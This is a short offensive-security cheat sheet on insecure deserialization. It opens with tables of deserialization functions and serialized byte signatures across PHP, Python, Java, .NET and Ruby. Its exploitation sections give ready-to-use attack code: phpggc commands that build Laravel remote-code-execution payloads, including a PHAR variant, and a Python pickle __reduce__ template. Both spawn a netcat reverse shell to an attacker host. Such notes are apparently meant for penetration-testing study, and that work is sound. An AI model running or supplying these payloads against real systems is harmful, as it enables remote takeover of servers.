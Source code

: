 # Identifying the use of Serialization

## White-Box

| Function             | Language                     |
|----------------------|------------------------------|
| `unserialize()`      | PHP                          |
| `pickle.loads()`     | Python (Pickle)              |
| `jsonpickle.loads()` | Python (JSONPickle)          |
| `yaml.load()`        | Python (PyYAML, ruamel.yaml) |
| `readObject()`       | Java                         |
| `Deserialize()`      | C#/.NET                      |
| `Marshal.load()`     | Ruby                         |


## Black Box

| Bytes                                                                      | Language                           |
|----------------------------------------------------------------------------|------------------------------------|
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP                                |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.`         | Python 2.x (Pickle Protocol 0)     |
| `80 01` (Hex)                                                              | Python 2.x (Pickle Protocol 1)     |
| `80 02` (Hex)                                                              | Python 2.3+ (Pickle Protocol 2)    |
| `80 03` (Hex)                                                              | Python 3.8+ (Pickle Protocol 4)    |
| `80 04 95` (Hex)                                                           | Python 3.x (Pickle Protocol 5)     |
| `["Test", "Data", [4], "ACADEMY"]`                                         | Python 2.7 / 3.6+ (JSONPickle      |
| `- Test\n- Data\n- - 4\n- ACADEMY\n`                                       | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64)                             | Java                               |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64)                | C#/.NET                            |
| `04 08` (Hex)                                                              | Ruby                               |

# Exploiting PHP Deserialization

## PHPGGC

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```
